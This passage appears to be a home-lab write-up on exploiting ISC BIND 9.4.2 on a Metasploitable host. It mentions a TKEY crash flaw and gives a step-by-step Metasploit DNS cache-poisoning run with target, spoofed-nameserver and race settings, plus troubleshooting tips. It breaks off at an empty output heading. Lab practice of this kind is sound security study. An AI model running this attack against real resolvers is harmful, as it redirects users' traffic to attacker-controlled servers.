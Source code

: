 The TKEY record (type="TKEY") is used for transaction key management in DNSSEC. BIND 9.4.2 has certain flaws that, incorrectly handles certain TKEY requests, allowing an attacker to craft a request that crashes the service.

### Exploitation
##### 1.Exploitation the DNS cache poisoning vulnerability
For this, on a little search on google I found two metasploit module which can perform the dns poisoning attack for a specific domain/host.
**auxiliary/spoof/dns/bailiwicked_domain**

**auxiliary/spoof/dns/bailiwicked_host**
```
sudo msfconsole
msf > search spoof/dns
msf > use auxiliary/spoof/dns/bailiwicked_domain
msf auxiliary(spoof/dns/bailiwicked_domain) > set RHOSTS 192.168.1.103
#recons is important as it queries to get the dns info about the target domain and helps the dns spoof response appear legitimate to mimicking the real dns-data, so it is set to an open external dns server.
msf auxiliary(spoof/dns/bailiwicked_domain) > set RECONS 199.43.133.53
#The host to which the domain is spoofed with( I am using my attacker machine server)
msf auxiliary(spoof/dns/bailiwicked_domain) > set NEWDNS 192.168.1.101
#Domian which we want to spoof
msf auxiliary(spoof/dns/bailiwicked_domain) > set DOMAIN example.com
#if you don't know the target's response port set it to 0 to check for all ports
msf auxiliary(spoof/dns/bailiwicked_domain) > set SRCPORT 0
msf auxiliary(spoof/dns/bailiwicked_domain) > set SRCADDR Real
#It represent the no of spoofed response sends to the target. It should sent to high so that in race condition with the original dns respose, our spoofed response will win.
msf auxiliary(spoof/dns/bailiwicked_domain) > set XIDS 20000
msf auxiliary(spoof/dns/bailiwicked_domain) > run
```
As the attack is good to go, ensure that-
1. The metasploitable machine uses the ISC BIND service to resolve the dns, as the metasploit is connected to LAN interface of opensense, there are chances that it is configure to dns forwarding to the opensense and if so the metaspoitable machine is not using its own ISC bind service and this attack doesn't work. For that you must ensure that there is **nameserver 127.0.0.1** entry in the resolv.conf file.
2. Also check that your opensense firewall is not blocking the fluided dns responses in the network.
3. The dns cache should be cleaned if there any prior entry about our target domain. 
4. At last, the ISC bind is not configured to have DNSSEC enable, if so the target won't accept our spoofed dns responses.
**Output**